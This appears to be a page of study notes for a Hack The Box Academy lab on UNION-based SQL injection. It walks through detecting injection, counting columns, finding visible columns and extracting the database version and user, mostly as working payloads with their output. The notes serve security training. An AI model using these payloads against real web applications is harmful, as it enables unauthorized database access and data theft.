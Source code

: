 **Testing Which Columns Display:**
```sql
-- Test visibility with clear identifiers
cn' UNION select 'COL1','COL2','COL3','COL4'-- -

-- Expected visible output:
Port Code | Port City | Port Volume
----------|-----------|------------
   COL2   |   COL3    |    COL4

-- Conclusion: Can inject in columns 2, 3, or 4 only!
```

**Practical Data Extraction:**
```sql
-- ❌ WRONG: Inject in hidden column 1
cn' UNION select @@version,2,3,4-- -
-- Result: Version not visible (column 1 hidden)

-- ✅ CORRECT: Inject in visible column 2
cn' UNION select 1,@@version,3,4-- -
-- Result: "10.3.22-MariaDB-1ubuntu1" displayed in Port Code column

-- ✅ CORRECT: Inject in visible column 3
cn' UNION select 1,2,user(),4-- -
-- Result: "root@localhost" displayed in Port City column
```

**HTB Academy Question Solution:**
```sql
-- Step 1: Detect columns (already shown: 4 columns)
-- Step 2: Test visibility (columns 2,3,4 are visible)
-- Step 3: Extract user() in visible column
' UNION SELECT 1,user(),3,4-- -
-- Answer: root@localhost
```

### Basic UNION Injection

#### Step-by-Step UNION Injection Process

**1. Detect Injection Point**
```sql
-- Test for SQL injection with single quote
cn'
-- Look for: SQL errors, broken output, different behavior
```

**2. Detect Number of Columns**
```sql
-- Method A: ORDER BY (recommended)
cn' order by 1-- -     # ✅ Success  
cn' order by 4-- -     # ✅ Success
cn' order by 5-- -     # ❌ Error → 4 columns detected

-- Method B: UNION
cn' UNION select 1,2,3-- -     # ❌ Error
cn' UNION select 1,2,3,4-- -   # ✅ Success → 4 columns detected
```
